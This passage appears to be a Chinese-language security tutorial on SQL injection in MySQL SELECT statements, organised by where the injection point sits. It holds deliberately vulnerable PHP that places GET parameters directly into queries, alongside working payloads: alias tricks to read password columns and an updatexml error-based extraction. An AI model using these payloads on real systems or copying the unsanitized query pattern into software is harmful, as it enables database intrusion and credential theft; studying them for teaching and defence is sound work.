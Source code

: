 > select 语句用于数据表记录的查询，常在界面展示的过程中使用

#### [](#1311-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-select_expr)13.1.1 注入点在 select\_expr

源代码如下所示：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```php<br><?php<br>    $conn = mysqli_connect("127.0.0.1", "root", "root", "test");<br>	$res = mysqli_query($conn, "SELECT ${_GET['id']}, content FROM wp_news");<br>	$row = mysqli_fetch_array($res);<br>	echo "$row['title']";<br>	echo "$row['content']";<br>?><br>``` |

可以采取时间盲注的方式，但是根据 MySQL 的语法，有更优的解决方法，即利用 AS 别名的方法，直接将查询的结果显示到界面中。

**payload**：`?id=(select pwd from wp_user as title)`

#### [](#1312-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-table_reference)13.1.2 注入点在 table\_reference

上文的 SQL 查询语句改为：`$res = mysqli_query($conn, "SELECT title FROM ${_GET['table']}");`

仍然可以利用别名的方式直接取出数据

`select title from (select pwd AS title from wp_user)x`

技巧

在不知表名的情况下，可以先从 information\_schema.tables 中查询表名。

在 select\_expr 和 table\_reference 的注入，如果注入的点有反引号包裹，那么需要先闭合反引号。

#### [](#1313-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-where-%E6%88%96-having-%E5%90%8E)13.1.3 注入点在 WHERE 或 HAVING 后

SQL 语句：`$res = mysqli_query($conn, "SELECT title FROM wp_news WHERE id=${_GET[id]}")`

实战中最常遇到的情况，要先判断有无引号包裹，再闭合前面可能存在的括号，即可进行注入来获取数据。注入点在 HAVING 后的情况与之相似。

#### [](#1314-%E6%B3%A8%E5%85%A5%E7%82%B9%E5%9C%A8-group-by-%E6%88%96-order-by-%E5%90%8E)13.1.4 注入点在 GROUP BY 或 ORDER BY 后

##### [](#13141-%E5%88%A9%E7%94%A8%E6%8A%A5%E9%94%99)13.1.4.1 利用报错

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select * from wp_user_ order by 1\|updatexml(1,concat(0x7e,database(),0x7e),0)<br>``` |

1105 - XPATH syntax error: ‘~sectest~’, Time: 0.000000s

##### [](#13142-%E5%88%A9%E7%94%A8%E5%BB%B6%E6%97%B6)13.1.4.2 利用延时

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>$res = mysqli_query($conn, "SELECT title FROM wp_news GROUP BY ${_GET['title']}");<br>``` |
